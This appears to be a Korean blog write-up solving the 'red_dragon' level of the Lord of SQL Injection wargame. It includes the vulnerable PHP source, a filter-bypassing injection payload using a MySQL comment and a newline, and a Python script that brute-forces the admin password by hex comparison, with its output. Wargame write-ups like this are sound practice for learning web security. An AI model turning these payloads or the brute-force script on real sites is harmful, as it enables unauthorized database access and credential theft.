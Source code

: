 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - red_dragon 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


정신 차려보니 `green_dragon` 문제를 푼지 벌써 2주가 지나있다.  

그동안 휴가도 다녀오고 휴가를 다녀오느라 못한 일들을 하느라 정신이 없었다.  

`red_dragon`을 오랜만에 풀어보았는데 좀 어려웠다 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

이번엔 `id`와 `no`를 입력 받는다.  

그런데 `id`는 `7글자`를 넘을 수 없고, `no`에는 순전히 `숫자`만 들어갈 수 있다.  

그래서 처음에는 `id가 admin인 행의 no를 찾아보자!`라고 생각했는데, `no`가 아무래도 작은 수는 아닌가보다.  

그리고 문제를 풀려면 정확한 pw의 값이 필요한데, 이 방법으로는 그걸 알아낼 수도 없다.  

한참을 고민했는데 모르겠어서 주변의 `웹잘알`님께 물어보았다.  

그랬더니 아래와 같은 방법을 알려주었다.  

```
?id='||pw>%23&no=%0a0x61
```

이렇게 입력하면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_red_dragon where id=''||pw>#' and no=
0x61
```

`no=` 다음에 `%0a`를 입력했기 때문에 뒤의 `0x61`은 다음 줄에 들어간다.  

`#`은 `MySQL`에서 한 줄 주석 문자이며, `MySQL`에서는 여러 줄에 걸쳐 쿼리를 입력할 수 있다.  

그래서 위의 쿼리문에서 주석처리되는 부분과 개행을 빼고 깔끔하게 정리하면 아래와 같이 된다.  

```
select id from prob_red_dragon where id=''||pw>0x61
```

헤...  

이러면 한 글자 씩 pw를 비교할 수 있다!  

아래는 내 서버에서 테스트 해 본 결과이다.  

```
mysql> select * from user where id='admin' and pw>0x61;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x62;
Empty set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6172;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.01 sec)

mysql> select * from user where id='admin' and pw>0x6174;
Empty set (0.00 sec)
```

위와 같이 pw를 한 글자 씩 비교할 수 있는데, `=`이 아닌 `>`를 통해 비교하고 있기 때문에 결과값이 나오지 않는 순간의 직전 값이 pw의 정확한 값이 된다.  

따라서 문제에서 pw의 값을 `hex` 값으로 비교를 하다가 `Hello admin`이 안나온다면 그 값에서 `-1`을 한 값이 pw가 된다.  

그런데 마지막 글자를 찾을 때는 다르다.  

```
mysql> select * from user where id='admin' and pw>0x6173646177717764;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173646177717765;
Empty set (0.00 sec)
```

위의 예시에서도 알 수 있듯이 마지막 글자는 `Hello admin`이 나오지 않은 값이 정확한 pw의 값이다.  

이를 바탕으로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = "0x"

url = "http://los.rubiya.kr/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 20):
	found = False
	for i in range(48, 128):
		try:
			query = url + "'||pw>%23&no=%0a" + flag + hex(i)[2:]
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' not in r.text:
			flag += str(hex(i - 1))[2:]
			print "[+] Found " + str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break
	
flag = flag[2:].decode("hex")
flag = flag[:-1] + chr(ord(flag[-1]) + 1)
print "[+] Found password : ", flag
print "[+] End"
```

pw의 길이를 모르기 때문에 일단 20까지 반복문을 돌렸다.  

그리고 마지막 글자는 `Hello admin`이 나오지 않은 그 순간의 값이기 때문에 다시 `+1`을 해 출력 해 주었다.  

그 결과 다음과 같았다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0x41
[+] Found 2 : 0x4135
[+] Found 3 : 0x413533
[+] Found 4 : 0x41353344
[+] Found 5 : 0x4135334444
[+] Found 6 : 0x413533444434
[+] Found 7 : 0x41353344443436
[+] Found 8 : 0x4135334444343640
[+] Found password finished
[+] Found password :  A53DD46A
[+] End
```

이 전의 문제에서도 pw의 값은 소문자였기 때문에 이번에도 아래와 같이 소문자로 입력 해 주었다.  

```
?pw=a53dd46a
```

그 결과 문제를 풀 수 있었다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
----------------------------------------------------------------------------------

RED_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

`RED_DRAGON Clear!!`
